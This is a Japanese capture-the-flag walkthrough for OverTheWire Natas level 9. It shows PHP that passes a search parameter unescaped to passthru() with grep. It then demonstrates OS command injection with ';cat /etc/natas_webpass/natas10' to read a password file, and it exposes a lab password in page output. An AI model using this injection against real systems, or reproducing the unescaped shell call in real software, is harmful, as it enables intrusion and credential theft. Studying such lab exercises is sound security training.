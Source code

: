 ```

Natas Level 8 → Level 9

Username: natas9
URL:      http://natas9.natas.labs.overthewire.org

```

![](img/natas9-1.png)  

適当に`hoge`でSearchしてみる。  

```
http://natas9.natas.labs.overthewire.org/?needle=hoge&submit=Search
```

何も変化なく上記のパラメータが発行された。  

ソースコードを見られるので見てみる。  

```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "<censored>" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`needle`パラメータで送った文字列が`key`に入って、`key`がgrepコマンドの検索パターンとして使用されている。  

正規表現で任意の文字列を検索する「.*」をやってみる。  

![](img/natas9-2.png)  

色々表示された。  

passthru()は、"外部プログラムを実行し、未整形の出力を表示する"関数であり入力した文字をエスケープしないでそのまま実行されている。  
つまりOSコマンドインジェクションが可能であり、`/etc/natas_webpass/<user>`にパスワードが保管されているのが判明しているためこれを開く。  

`;cat /etc/natas_webpass/natas10`を送る。  

結果のソースコード  

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
*********************************

African
Africans
Allah
Allah's
American
Americanism
Americanism's
Americanisms
Americans
April
April's
Aprils
```


クリア
